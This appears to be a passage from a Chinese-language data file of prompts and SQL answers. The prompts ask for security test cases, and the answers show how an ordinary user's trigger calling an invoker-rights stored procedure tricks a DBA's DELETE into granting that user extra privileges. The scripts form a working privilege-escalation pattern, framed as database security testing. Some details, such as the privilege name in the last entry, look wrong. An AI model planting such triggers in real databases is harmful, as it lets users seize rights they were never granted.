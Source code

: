 --USER1用户
--查看权限
SELECT * FROM USER_SYS_PRIVS;"
生成一组测试用例，能够反应触发器通过调用存储过程实现间接提权功能,user1用户是普通用户，创建存储过程执行授权任意该用户未有的权限，创建删除前触发器，执行该存储过程。使用DBA用户删除user1用户的表，触发触发器调用存储过程进行授权,"‘--USER1用户
--创建表
CREATE TABLE T5(ID INT, NAME VARCHAR(50));

--插入数据
INSERT INTO T5 VALUES(1, 'USER1');

--创建授权存储过程
CREATE OR REPLACE PROCEDURE CREATE_ANY_PROCEDURE
AUTHID CURRENT_USER
IS
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'GRANT CREATE ANY PROCEDURE TO USER1';
    COMMIT;
END;

--创建触发器，调用存储过程
CREATE OR REPLACE TRIGGER DELETE_CREATE_ANY_PROCEDURE
BEFORE DELETE ON USER1.T5
FOR EACH ROW
BEGIN
 --调用存储过程
 CALL CREATE_ANY_PROCEDURE();
END;

--DBA用户
--删除数据，触发触发器进行授权
DELETE FROM USER1.T5 WHERE ID = 1;

--USER1用户
--查看权限
SELECT * FROM USER_SYS_PRIVS;"
生成一组测试用例，能够反应触发器通过调用存储过程实现间接提权功能,user1用户是普通用户，创建存储过程执行授权任意该用户未有的权限，创建删除后触发器，执行该存储过程。使用DBA用户删除user1用户的表，触发触发器调用存储过程进行授权,"--USER1用户
--创建表
CREATE TABLE T6(ID INT, NAME VARCHAR(50));

--插入数据
INSERT INTO T6 VALUES(1, 'USER1');

--创建授权存储过程
CREATE OR REPLACE PROCEDURE GRANT_ANY_PROCEDURE
AUTHID CURRENT_USER
IS
    PRAGMA AUTONOMOUS_TRANSACTION;
BEGIN
    EXECUTE IMMEDIATE 'GRANT GRANT ANY PROCEDURE TO USER1';
    COMMIT;
END;
